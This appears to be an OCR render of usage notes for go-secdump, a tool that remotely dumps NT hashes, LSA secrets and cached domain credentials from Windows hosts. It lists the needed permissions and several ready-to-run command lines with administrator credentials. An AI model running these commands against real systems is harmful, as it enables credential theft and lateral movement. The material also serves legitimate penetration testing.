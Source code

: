 # Go-secdump

## Github repo: https://github.com/jfjallid/go-secdump

## Dump NT Hashes from SAM, LSA Secrets and Domain Cached Credentials remotely

## Requirements: Read permissions on SAM and SECURITY hives (usually only NT AUTHORITY\SYSTEM has these permissions) and local group administrators have WriteDACL on the registry hives.

### Usage:

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local

### or

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam --lsa --dcc2

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --sam (Dump only SAM)

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --lsa (Dump only LSA)

#### ./go-secdump --host DESKTOP-AIG0C1D2 --user Administrator --pass adminPass123 --local --dcc2 (Dump only DCC2 cache secrets)

